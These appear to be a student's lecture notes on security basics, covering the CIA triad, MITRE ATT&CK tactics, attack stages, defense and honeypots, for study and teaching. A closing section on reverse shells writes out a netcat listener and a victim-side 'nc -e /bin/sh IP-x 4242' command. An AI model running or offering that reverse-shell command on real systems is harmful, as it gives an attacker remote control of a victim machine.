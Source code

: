 
---
**CIA Triad** - Confidentiality - Integrity - Availability
**Adversaries** try to violate one of the - CIA

##### [MITRE ATT&CK](https://attack.mitre.org/)
1. Reference framework built upon observations of many real attacks
2. Database (or ontology) (with links and navigation) for associating tactics/techniques
3. Tool - MITRE ATT&CK Navigator (Framework & Tool are not always perfectly aligned)
   - The ATT&CK Navigator is a web-based tool for annotating and exploring ATT&CK matrices.
   - It can be used to visualize defensive coverage, red/blue team planning, the frequency of detected techniques, and more.

##### Targets
1. Organizations
2. Single individuals
3. Industrial control systems (ICS)

---
##### Attacking an organization
1. Initial Access Execution
2. Persistence
3. C&C (Command & Control)
4. Discovery
5. Lateral movement
6. Privilege escalation (No damage yet)
7. Exfiltration / Impact (damage done)

**Exfiltration** - Violation of Confidentiality. Tool - `HTran`
**Impact** - Violation of Integrity or Availability

**Resource Development** - Adversary has to establish resources before Initial Access
**Reconnaissance** (or Recon) - Gather information for future operations (before Initial Access)

A strong defense on a **few techniques** may suffice to **disrupt the attack** (KILL CHAIN)

Defense must consist of:
1. Mitigation
2. Detection
3. Remediation - Backups

**Honey-pots**
1. Machines placed in networks to attract adversaries & detect their presence.
2. Company that provides useful & ready to use honey-pots: [Canarytokens](https://canarytokens.org/nest/)
3. This tool can only be helpful if Detection activities are already in place.
---
##### ICS
Attacks on **ICS** may have *strategic/intelligence* motivations.
Objective is stealing/disruption, not money.

---
##### Threat model
1. Starting point (Discussed in detail in [[Session - 4]])

---
##### Reverse Shells
1. Either remote shell - Malware is itself a shell. Example: `meterpreter`
2. Or malware spawns a shell of the target platform & connects I/O as needed.
3. But the remote shell has to be a client. If it becomes a server, we will not be able to access it from outside the organization.
4. Adversary
   - Listener. Example: `netcat` --> `nc -lnvp 4242`
   - Server at TCP level
   - Client at shell level
5. Malware (on Victim machine)
   - Server at shell level
   - Client at TCP level
   - Example: `nc -e /bin/sh IP-x 4242`
   - Or spawn a shell using `socket` & `subprocess` in Python

---
